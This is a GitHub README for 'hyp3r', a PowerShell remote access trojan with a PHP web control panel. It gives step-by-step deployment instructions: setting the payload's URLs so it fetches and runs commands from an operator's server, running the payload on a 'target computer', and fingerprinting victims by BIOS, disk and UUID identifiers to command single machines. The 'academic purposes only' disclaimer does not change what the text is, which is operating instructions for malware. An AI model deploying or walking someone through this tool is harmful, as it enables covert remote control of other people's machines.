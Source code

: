 # hyp3r RAT

![GitHub License](https://img.shields.io/github/license/XZE3N/hyp3r)
![GitHub last commit](https://img.shields.io/github/last-commit/XZE3N/hyp3r)
![GitHub Issues or Pull Requests](https://img.shields.io/github/issues/XZE3N/hyp3r)
![GitHub contributors](https://img.shields.io/github/contributors/XZE3N/hyp3r)

<img style="margin: 0 auto" src=https://upload.wikimedia.org/wikipedia/commons/2/2f/PowerShell_5.0_icon.png>

## hyp3r is a basic Remote Access Tool (RAT) written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - Apache web server.
  - PowerShell version 5.1 (might work on older versions as well) installed on the target computer (Required for cmdlets to run).

## Features
  - WebGUI.
  - Live target status.
  - Remote shell execution.
  - Multi-target support (The script can handle as many targets as your server can).
  - Simple and easy to customize scripts.

## Notes
  - The timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - Remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download the .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

```powershell
$verurl = 'http://your_website_url_or_ip/script.txt'
$url = 'http://your_website_url_or_ip'
$stop = 'the syntax of your choice to force stop the payload on the target machine'
```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
```powershell
[System.Console]::Beep(1000,300)
```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

```powershell
if($env:COMPUTERNAME -eq "TARGET-PC") {
	echo "now it will only be executed by targets with the user TARGET-PC"
}
```
  - If the `COMPUTERNAME` identifier is way to simple for your needs and it brings up problems you can use the scripts unique identifier composed of the biosid, hddid and uuid of the target computer

```powershell
$a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
$b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
$c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
$ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
if($ids -eq "UNIQUE_IDENTIFIER") {
	doStuff()
}
```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
